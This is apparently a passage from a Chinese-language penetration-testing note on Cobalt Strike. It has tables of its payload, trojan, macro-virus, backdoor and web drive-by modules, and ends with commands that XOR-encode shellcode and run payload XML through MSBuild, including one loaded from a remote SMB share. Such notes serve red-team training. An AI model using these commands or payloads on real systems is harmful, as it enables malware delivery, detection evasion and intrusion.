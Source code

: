 ![image](/assets/Pentest_Note/master/img/215.png)

|名称   |功能   |
| ----------| ----------|
|HTML Application   |基于powershell的.hta格式的HTML Application木马，分为可执行文件、PowerShell、VBA三种方法   |
|MS Office Macro  |office宏病毒文件   |
|Payload Generator   |基于C、C#、COM Scriptlet、Java、Perl、PowerShell、Python、Ruby、VBA等语言的payload   |
|USB/CD AutoPlay   |利用USB/CD自动播放运行的木马   |
|Windows Dropper   |捆绑器   |
|Windows Executable   |生成32位或64位的exe和基于服务的可执行文件、DLL等后门   |
|Windows Executable(S)   |生成可执行文件，支持powershell脚本，提供代理功能   |

	Web Drive-by基于WEB的攻击模块

|名称   | 功能  |
| ----------| ----------|
|Manage   |管理开启的模块  |
|Clone Site   |克隆网站   |
|Host File   |提供文件下载   |
|Scripted Web Delivery   |基于Web的攻击Payload   |
|Signed Applet Attack   |运行java自签名的攻击模块   |
|Smart Applet Attack   |自动检测Java版本并利用已知的exploits攻击   |
|System Profiler   |信息探测模块   |

	自定义payload
	* Attacks > Packages > Payload Generator 
	* Attacks > Packages > Scripted Web Delivery (S)
	$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
	$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
	$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml